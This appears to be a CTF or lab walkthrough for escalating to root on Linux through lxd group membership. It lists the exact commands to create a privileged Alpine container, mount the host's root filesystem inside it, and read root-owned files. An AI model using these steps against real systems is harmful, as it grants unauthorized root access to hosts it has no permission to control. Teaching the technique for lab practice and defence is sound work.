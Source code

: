 ## What is LXD / LXC?

- **LXC (Linux Containers)** and **LXD (Linux Daemon)** are tools that let you create **lightweight virtual environments** called **containers**.
- Containers are **isolated** from the rest of the system, but they **share the same Linux kernel**.
- Think of it like running a mini Linux system inside a real one – like opening a new computer inside your current computer.

---

## 🧠 Why This Matters for Privilege Escalation?

If your user is part of the **`lxd` group**, it means you can manage and create these containers.  
But here's the trick:

> You can make a special container that has access to the **host system’s files as root**, allowing you to **escape the container and become root** on the host!

1. type `id` command and Make sure you're in the `lxd` group first:
2. Import the Alpine image you can download it from internet for now we have this in target system `alpine-v3.18-x86_64-20230607_1234.tar.gz`
   
```bash
lxc image import alpine-v3.18-x86_64-20230607_1234.tar.gz --alias alpescape
```
   
3. Confirm it was imported
```bash
lxc image list
```
   
   You should see a line for `alpescape`.
   
4. Create a **privileged container** from the image
```bash
lxc init alpescape privesc -c security.privileged=true
```
   This creates a new container called `privesc` with **privileged access** (important!).
   
5. Mount the host root `/` inside the container
```bash
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
   This lets the container access the host's full file system at `/mnt/root`.
   
6. Start the container
   ```bash
lxc start privesc
```
   
7. Get a shell inside the container
```bash
lxc exec privesc /bin/sh
```
_(Alpine uses `/bin/sh` instead of `/bin/bash`)_

8. Access the host system's root directory
```bash
ls /mnt/root
cd /mnt/root/root
cat flag.txt
```